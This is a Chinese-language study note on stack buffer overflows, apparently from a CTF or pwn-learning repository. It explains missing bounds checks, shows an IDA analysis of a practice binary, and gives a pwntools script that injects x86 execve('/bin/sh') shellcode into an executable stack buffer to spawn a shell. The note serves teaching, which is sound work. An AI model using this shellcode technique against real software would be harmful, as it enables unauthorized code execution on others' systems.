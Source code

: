 # stackOverflow

## 简介

栈溢出(stackoverflow)是是缓冲区溢出的一种形式，造成这种漏洞的原因是没有进行合理的边界检查     

比如用于保存输入的缓冲区，有10字节大小，如果你用于接受输入的函数是类似gets或是接受的输入  
大于缓冲区的能够保存的字符数，这会使程序覆写掉缓冲区外部的某些数据他可能是用户变量数据，
也可能是某些与执行流重要的程序数据  

绝大部分情况下这会导致程序直接崩溃，但如果攻击者恶意利用漏洞构造栈上数据，可能会对系统安
全造成致命威胁  

## 实例stackOverflow  

### ida静态分析  

---  

![1.png](https://github.com/S0DUKU/PWNnote/blob/master/StackOverflow/images/1.png)  

---  

迅速定位到漏洞点，read函数读取0x100个字节到一个字符变量的地址，而接下来，程序会调用v6处
一段缓冲区存储的机器指令，由于缓冲区的溢出，有机会覆盖v6缓冲区的数据，将我们自己编写的机
器码存储进去，并调用(可以成功调用这个栈上的函数是因为关闭了栈不可执行保护)。    

### 攻击脚本  

```  
from pwn import *  

#构造exec系统调用所需的参数 '/bin/sh' 填充直到v6处
code1 = '/'
code2 = 'bin/sh\0\0' 

#构造shellcode,调用系统调用并把传递过来的地址参数运用起来

code2 += asm('mov eax,11')
code2 += asm('mov ebx,[esp + 4]')
code2 += asm('xor ecx,ecx')
code2 += asm('xor edx,edx')
code2 += asm('int 0x80')
code2 += asm('ret')

r = process('./stackOverflow')
r.send(code1)
r.send(code2)
r.interactive()  

```  

### 试验  

---  

![2.png](https://github.com/S0DUKU/PWNnote/blob/master/StackOverflow/images/2.png)    

---  






